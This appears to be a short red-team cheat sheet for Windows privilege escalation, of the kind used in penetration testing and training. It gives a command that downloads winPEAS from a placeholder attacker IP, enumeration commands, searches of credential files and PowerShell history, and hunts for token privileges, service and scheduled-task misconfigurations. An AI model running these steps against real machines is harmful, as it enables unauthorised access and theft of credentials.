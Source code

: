 https://swisskyrepo.github.io/InternalAllTheThings/redteam/escalation/windows-privilege-escalation/

### Winpeas
```
Invoke-WebRequest -Uri http://<Attack_ip>:<PORT>/winpeas.exe -Outfile winpeas.exe
```

### Basic Enumeration
``` bash
whoami /all                 # Privileges and groups
hostname                    # Hostname
systeminfo                  # OS, patch level
echo %USERNAME%             # Current user
net users                   # All local users
net localgroup administrators # Admin group members
tasklist                    # Running processes

#With Powershell
Get-LocalUser
Get-LocalGroupMember Administrators
Get-WmiObject win32_useraccount
```
### Credentials & Interesting Files
``` bash
dir /s *pass* == *cred* == *vnc* 2>nul
type C:\Users\USERNAME\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt
type %userprofile%\Recent\*.lnk
#Check for saved RDP credentials:
cmdkey /list
```
### Privileges and Permissions
``` bash
#Check privileges:
whoami /priv
#Look for:
#SeImpersonatePrivilege
#SeAssignPrimaryTokenPrivilege
#SeDebugPrivilege
**Abusable with**:
- JuicyPotato
- PrintSpoofer
- RoguePotato
```
### **Services & Misconfigurations**
``` bash
#List services:
sc query sc qc [service-name]
#Look for:
#Unquoted service paths   
#Writable service executables/configs   

#Services running as SYSTEM, Check with:
accesschk.exe /accepteula -uwcqv "user" *
```
### **Scheduled Tasks / Startup**
``` bash
schtasks /query /fo LIST /v
#Look for:
#Tasks running with highest privileges

#Editable scripts or paths:
dir "C:\ProgramData\Microsoft\Windows\Start Menu\Programs\Startup"
```